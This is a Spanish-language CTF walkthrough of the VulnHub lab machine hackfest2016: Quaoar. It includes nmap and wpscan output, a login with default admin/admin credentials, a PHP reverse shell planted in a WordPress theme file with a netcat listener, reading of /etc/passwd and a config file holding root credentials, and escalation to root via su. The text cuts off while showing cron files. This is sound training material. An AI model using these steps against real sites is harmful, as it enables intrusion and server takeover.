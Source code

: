 Title: hackfest2016: Quaoar Writeup Date: 17/03/2017 Category: CTF Tags: CTF, Writeup Author: Xose Summary: Writeup del CTF hackfest2016: Quaoar Writeup, descargado de [vulnhub](https://www.vulnhub.com/entry/hackfest2016-quaoar,180/) # FLAG 1 - SHELL Después de hacer un netdiscover para encontrar la IP de la máquina, encuentro la máquina virtual en la IP: 192.168.110.101 Procedo a hacer un nmap: ```bash nmap -T4 -A -v -p- 192.168.110.101 Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2017-03-17 15:48 CET NSE: Loaded 140 scripts for scanning. NSE: Script Pre-scanning. Initiating NSE at 15:48 Completed NSE at 15:48, 0.00s elapsed Initiating NSE at 15:48 Completed NSE at 15:48, 0.00s elapsed Initiating ARP Ping Scan at 15:48 Scanning 192.168.110.101 [1 port] Completed ARP Ping Scan at 15:48, 0.03s elapsed (1 total hosts) Initiating Parallel DNS resolution of 1 host. at 15:48 Completed Parallel DNS resolution of 1 host. at 15:48, 0.01s elapsed Initiating SYN Stealth Scan at 15:48 Scanning 192.168.110.101 [65535 ports] Discovered open port 993/tcp on 192.168.110.101 Discovered open port 110/tcp on 192.168.110.101 Discovered open port 80/tcp on 192.168.110.101 Discovered open port 445/tcp on 192.168.110.101 Discovered open port 139/tcp on 192.168.110.101 Discovered open port 53/tcp on 192.168.110.101 Discovered open port 143/tcp on 192.168.110.101 Discovered open port 22/tcp on 192.168.110.101 Discovered open port 995/tcp on 192.168.110.101 Completed SYN Stealth Scan at 15:48, 0.69s elapsed (65535 total ports) Initiating Service scan at 15:48 Scanning 9 services on 192.168.110.101 Completed Service scan at 15:49, 11.01s elapsed (9 services on 1 host) Initiating OS detection (try #1) against 192.168.110.101 NSE: Script scanning 192.168.110.101. Initiating NSE at 15:49 Completed NSE at 15:49, 8.22s elapsed Initiating NSE at 15:49 Completed NSE at 15:49, 0.01s elapsed Nmap scan report for 192.168.110.101 Host is up (0.00018s latency). Not shown: 65526 closed ports PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 1024 d0:0a:61:d5:d0:3a:38:c2:67:c3:c3:42:8f:ae:ab:e5 (DSA) | 2048 bc:e0:3b:ef:97:99:9a:8b:9e:96:cf:02:cd:f1:5e:dc (RSA) |_ 256 8c:73:46:83:98:8f:0d:f7:f5:c8:e4:58:68:0f:80:75 (ECDSA) 53/tcp open domain ISC BIND 9.8.1-P1 | dns-nsid: |_ bind.version: 9.8.1-P1 80/tcp open http Apache httpd 2.2.22 ((Ubuntu)) | http-methods: |_ Supported Methods: GET HEAD POST OPTIONS | http-robots.txt: 1 disallowed entry |_Hackers |_http-server-header: Apache/2.2.22 (Ubuntu) |_http-title: Site doesn't have a title (text/html). 110/tcp open pop3 Dovecot pop3d |_pop3-capabilities: TOP SASL PIPELINING RESP-CODES STLS UIDL CAPA | ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server | Issuer: commonName=ubuntu/organizationName=Dovecot mail server | Public Key type: rsa | Public Key bits: 2048.0 | Signature Algorithm: sha1WithRSAEncryption | Not valid before: 2016-10-07T04:32:43 | Not valid after: 2026-10-07T04:32:43 | MD5: e242 d8cb 6557 1624 38af 0867 05e9 2677 |_SHA-1: b5d0 537d 0850 11d0 e9c0 fb10 ca07 37c3 af10 9382 |_ssl-date: 2017-03-17T15:48:48+00:00; +59m39s from scanner time. 139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP) 143/tcp open imap Dovecot imapd |_imap-capabilities: LOGIN-REFERRALS more Pre-login LOGINDISABLEDA0001 STARTTLS IMAP4rev1 ID post-login listed have SASL-IR OK LITERAL+ IDLE capabilities ENABLE | ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server | Issuer: commonName=ubuntu/organizationName=Dovecot mail server | Public Key type: rsa | Public Key bits: 2048.0 | Signature Algorithm: sha1WithRSAEncryption | Not valid before: 2016-10-07T04:32:43 | Not valid after: 2026-10-07T04:32:43 | MD5: e242 d8cb 6557 1624 38af 0867 05e9 2677 |_SHA-1: b5d0 537d 0850 11d0 e9c0 fb10 ca07 37c3 af10 9382 |_ssl-date: 2017-03-17T15:48:48+00:00; +59m39s from scanner time. 445/tcp open netbios-ssn Samba smbd 3.6.3 (workgroup: WORKGROUP) 993/tcp open ssl/imap Dovecot imapd |_imap-capabilities: LOGIN-REFERRALS Pre-login more IMAP4rev1 post-login ID listed capabilities have SASL-IR OK LITERAL+ IDLE AUTH=PLAINA0001 ENABLE | ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server | Issuer: commonName=ubuntu/organizationName=Dovecot mail server | Public Key type: rsa | Public Key bits: 2048.0 | Signature Algorithm: sha1WithRSAEncryption | Not valid before: 2016-10-07T04:32:43 | Not valid after: 2026-10-07T04:32:43 | MD5: e242 d8cb 6557 1624 38af 0867 05e9 2677 |_SHA-1: b5d0 537d 0850 11d0 e9c0 fb10 ca07 37c3 af10 9382 |_ssl-date: 2017-03-17T15:48:48+00:00; +59m39s from scanner time. 995/tcp open ssl/pop3 Dovecot pop3d |_pop3-capabilities: TOP SASL(PLAIN) PIPELINING RESP-CODES USER UIDL CAPA | ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server | Issuer: commonName=ubuntu/organizationName=Dovecot mail server | Public Key type: rsa | Public Key bits: 2048.0 | Signature Algorithm: sha1WithRSAEncryption | Not valid before: 2016-10-07T04:32:43 | Not valid after: 2026-10-07T04:32:43 | MD5: e242 d8cb 6557 1624 38af 0867 05e9 2677 |_SHA-1: b5d0 537d 0850 11d0 e9c0 fb10 ca07 37c3 af10 9382 |_ssl-date: 2017-03-17T15:48:48+00:00; +59m40s from scanner time. MAC Address: 08:00:27:4F:0E:C2 (Oracle VirtualBox virtual NIC) Device type: general purpose Running: Linux 2.6.X|3.X OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 OS details: Linux 2.6.32 - 3.5 Uptime guess: 198.840 days (since Tue Aug 30 20:39:30 2016) Network Distance: 1 hop TCP Sequence Prediction: Difficulty=260 (Good luck!) IP ID Sequence Generation: All zeros Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel Host script results: |_clock-skew: mean: 59m39s, deviation: 1s, median: 59m39s | nbstat: NetBIOS name: QUAOAR, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown) | Names: | QUAOAR<00> Flags: <unique><active> | QUAOAR<03> Flags: <unique><active> | QUAOAR<20> Flags: <unique><active> | \x01\x02__MSBROWSE__\x02<01> Flags: <group><active> | WORKGROUP<1d> Flags: <unique><active> | WORKGROUP<1e> Flags: <group><active> |_ WORKGROUP<00> Flags: <group><active> | smb-os-discovery: | OS: Unix (Samba 3.6.3) | NetBIOS computer name: | Workgroup: WORKGROUP |_ System time: 2017-03-17T11:48:48-04:00 | smb-security-mode: | account_used: guest | authentication_level: user | challenge_response: supported |_ message_signing: disabled (dangerous, but default) |_smbv2-enabled: Server doesn't support SMBv2 protocol TRACEROUTE HOP RTT ADDRESS 1 0.18 ms 192.168.110.101 NSE: Script Post-scanning. Initiating NSE at 15:49 Completed NSE at 15:49, 0.00s elapsed Initiating NSE at 15:49 Completed NSE at 15:49, 0.00s elapsed Post-scan script results: | clock-skew: |_ 59m39s: Majority of systems scanned Read data files from: /usr/bin/../share/nmap OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 22.13 seconds Raw packets sent: 65555 (2.885MB) | Rcvd: 65551 (2.623MB) ``` Nos encontramos varios puertos para IMAP curiosos de ver en una máquina de CTF. Viendo que hay puerto 80, vamos a entrar en la página web a ver que nos encontramos: ![Web]({filename}/images/quaoar/quaoar1.png) Nos encontramos esta imagen de fondo que es un enlace que nos lleva a otra imagen con el texto "hack the planet". Como siempre, tirando por lo básico voy a checkear robots.txt y nos encontramos con esto: ![Web]({filename}/images/quaoar/robots.png) Pues nada, parece que tenemos un wordpress, vamos a verlo: ![Web]({filename}/images/quaoar/wordpress.png) Como podéis ver, hay un post con un link de wikipedia, mientras me hago una wordlist del enlace de wikipedia con cewl, hago un wpscan con enumerate de usuarios para ver que podemos encontrar... ```bash root@kali-xose:~/Descargas# wpscan --url http://192.168.110.101/wordpress/ --enumerate u _______________________________________________________________ __ _______ _____ \ \ / / __ \ / ____| \ \ /\ / /| |__) | (___ ___ __ _ _ __ \ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \ \ /\ / | | ____) | (__| (_| | | | | \/ \/ |_| |_____/ \___|\__,_|_| |_| WordPress Security Scanner by the WPScan Team Version 2.9.1 Sponsored by Sucuri - https://sucuri.net @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_ _______________________________________________________________ [+] URL: http://192.168.110.101/wordpress/ [+] Started: Fri Mar 17 15:54:28 2017 [!] The WordPress 'http://192.168.110.101/wordpress/readme.html' file exists exposing a version number [+] Interesting header: SERVER: Apache/2.2.22 (Ubuntu) [+] Interesting header: X-POWERED-BY: PHP/5.3.10-1ubuntu3 [+] XML-RPC Interface available under: http://192.168.110.101/wordpress/xmlrpc.php [!] Upload directory has directory listing enabled: http://192.168.110.101/wordpress/wp-content/uploads/ [!] Includes directory has directory listing enabled: http://192.168.110.101/wordpress/wp-includes/ [+] WordPress version 3.9.14 identified from advanced fingerprinting (Released on 2016-09-07) [!] 8 vulnerabilities identified from the version number [!] Title: WordPress 2.9-4.7 - Authenticated Cross-Site scripting (XSS) in update-core.php Reference: https://wpvulndb.com/vulnerabilities/8716 Reference: https://github.com/WordPress/WordPress/blob/c9ea1de1441bb3bda133bf72d513ca9de66566c2/wp-admin/update-core.php Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/ Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5488 [i] Fixed in: 3.9.15 [!] Title: WordPress 3.4-4.7 - Stored Cross-Site Scripting (XSS) via Theme Name fallback Reference: https://wpvulndb.com/vulnerabilities/8718 Reference: https://www.mehmetince.net/low-severity-wordpress/ Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/ Reference: https://github.com/WordPress/WordPress/commit/ce7fb2934dd111e6353784852de8aea2a938b359 Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5490 [i] Fixed in: 3.9.15 [!] Title: WordPress <= 4.7 - Post via Email Checks mail.example.com by Default Reference: https://wpvulndb.com/vulnerabilities/8719 Reference: https://github.com/WordPress/WordPress/commit/061e8788814ac87706d8b95688df276fe3c8596a Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/ Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5491 [i] Fixed in: 3.9.15 [!] Title: WordPress 2.8-4.7 - Accessibility Mode Cross-Site Request Forgery (CSRF) Reference: https://wpvulndb.com/vulnerabilities/8720 Reference: https://github.com/WordPress/WordPress/commit/03e5c0314aeffe6b27f4b98fef842bf0fb00c733 Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/ Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5492 [i] Fixed in: 3.9.15 [!] Title: WordPress 3.0-4.7 - Cryptographically Weak Pseudo-Random Number Generator (PRNG) Reference: https://wpvulndb.com/vulnerabilities/8721 Reference: https://github.com/WordPress/WordPress/commit/cea9e2dc62abf777e06b12ec4ad9d1aaa49b29f4 Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/ Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5493 [i] Fixed in: 3.9.15 [!] Title: WordPress 3.5-4.7.1 - WP_Query SQL Injection Reference: https://wpvulndb.com/vulnerabilities/8730 Reference: https://wordpress.org/news/2017/01/wordpress-4-7-2-security-release/ Reference: https://github.com/WordPress/WordPress/commit/85384297a60900004e27e417eac56d24267054cb Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5611 [i] Fixed in: 3.9.16 [!] Title: WordPress 3.6.0-4.7.2 - Authenticated Cross-Site Scripting (XSS) via Media File Metadata Reference: https://wpvulndb.com/vulnerabilities/8765 Reference: https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/ Reference: https://github.com/WordPress/WordPress/commit/28f838ca3ee205b6f39cd2bf23eb4e5f52796bd7 Reference: https://sumofpwn.nl/advisory/2016/wordpress_audio_playlist_functionality_is_affected_by_cross_site_scripting.html Reference: http://seclists.org/oss-sec/2017/q1/563 Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6814 [i] Fixed in: 3.9.17 [!] Title: WordPress 2.8.1-4.7.2 - Control Characters in Redirect URL Validation Reference: https://wpvulndb.com/vulnerabilities/8766 Reference: https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/ Reference: https://github.com/WordPress/WordPress/commit/288cd469396cfe7055972b457eb589cea51ce40e Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6815 [i] Fixed in: 3.9.17 [+] WordPress theme in use: twentyfourteen - v1.1 [+] Name: twentyfourteen - v1.1 | Location: http://192.168.110.101/wordpress/wp-content/themes/twentyfourteen/ [!] The version is out of date, the latest version is 1.9 | Style URL: http://192.168.110.101/wordpress/wp-content/themes/twentyfourteen/style.css | Referenced style.css: wp-content/themes/twentyfourteen/style.css | Theme Name: Twenty Fourteen | Theme URI: http://wordpress.org/themes/twentyfourteen | Description: In 2014, our default theme lets you create a responsive magazine website with a sleek, modern des... | Author: the WordPress team | Author URI: http://wordpress.org/ [+] Enumerating plugins from passive detection ... [+] No plugins found [+] Enumerating usernames ... [+] Identified the following 2 user/s: +----+--------+--------+ | Id | Login | Name | +----+--------+--------+ | 1 | admin | admin | | 2 | wpuser | wpuser | +----+--------+--------+ [!] Default first WordPress username 'admin' is still used [+] Finished: Fri Mar 17 15:54:32 2017 [+] Requests Done: 55 [+] Memory used: 17.664 MB [+] Elapsed time: 00:00:03 ``` Hay varias possibles vulnerabilidades, pero es interesante ver que el usuario admin por defecto está habilitado, vamos a probar de acceder con una contraseña por defecto admin/admin: ![]({filename}/images/quaoar/wpadmin.png) Bingo, estamos dentro! Como el primer reto es conseguir un webshell vamos a por ello, editamos un archivo del theme, en mi caso la página de 404 y ahí ponemos el código de un webshell, yo he usado [este](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). ![]({filename}/images/quaoar/themeshell.png) luego accedemos por el navegador a la ruta de esa página del tema: ![]({filename}/images/quaoar/webshell.png) y escuchamos por nc el puerto que hemos puesto en el webshell... Ya tenemos nuestro shell! ![]({filename}/images/quaoar/webshell2.png) De primeras hago un cat a /etc/passwd para ver los usuarios del sistema y veo un usuario llamado wpadmin, voy a su /home/ y ahí encuentro el primer flag. ![]({filename}/images/quaoar/flag1.png) ```bash $ cat flag.txt 2bafe61f03117ac66a73c3c514de796e ``` # FLAG 2 - ROOT Ya tenemos nuestro primer flag, pero no nos da ninguna pista de como avanzar para encontrar nuestro segundo flag y acceso a root. Me dispongo a mirar de primeras el contenido de la web desde el shell por si me he dejado algo y al entrar en la ruta de la web me encuentro una carpeta llamada uploads, accedo en ella y ahí me encuentro un archivo de configuración, (config.php) vamos a ver que hay dentro: ![]({filename}/images/quaoar/configphp.png) Pues parece que tenemos unas credenciales root:rootpassword! Vamos a probar a ver si con suerte podemos acceder con esta contraseña al usuario root. Invocamos terminal por python que sino no podemos hacer su y probamos: ```bash $ python -c 'import pty; pty.spawn("/bin/bash")' www-data@Quaoar:/$ id id uid=33(www-data) gid=33(www-data) groups=33(www-data) www-data@Quaoar:/$ su su Password: rootpassword! root@Quaoar:/# ``` Pues sí que ha funcionado! ya somos root, vamos a buscar el segundo flag! ```bash root@Quaoar:/# cd /root/ cd /root/ root@Quaoar:~# ls ls flag.txt vmware-tools-distrib root@Quaoar:~# cat flag.txt cat flag.txt 8e3f9ec016e3598c5eec11fd3d73f6fb root@Quaoar:~# ``` # FLAG 3 - POST EXPLOTATION Aquí lo tenemos! Pues parece que ya tenemos el flag y root debería estar todo, pero en las instrucciones de la máquina se informa de que hay un flag más post-explotación, vamos a buscarlo. Después de un buen rato buscando en servicios y archivos flag.txt en el equipo no encuentro nada. Me pongo a mirar sobre los servicios IMAP instalados que nos habían salido en el nmap y al hacer un cat al cron por si teníamos ahí algo sobre el IMAP encuentro el tercert flag! ```bash root@Quaoar:/# cat /etc/cron.d/* cat /etc/cron.d/* # /etc/cron.d/php5: crontab fragment for php5 # This purges session files older than X, where X is defined in seconds # as the largest value of session.gc_maxlifetime from all your php.ini # files, or 24 minutes if not defined. See /usr/lib/php5/maxlifetime # Its always a good idea to check for crontab to learn more about the operating syst
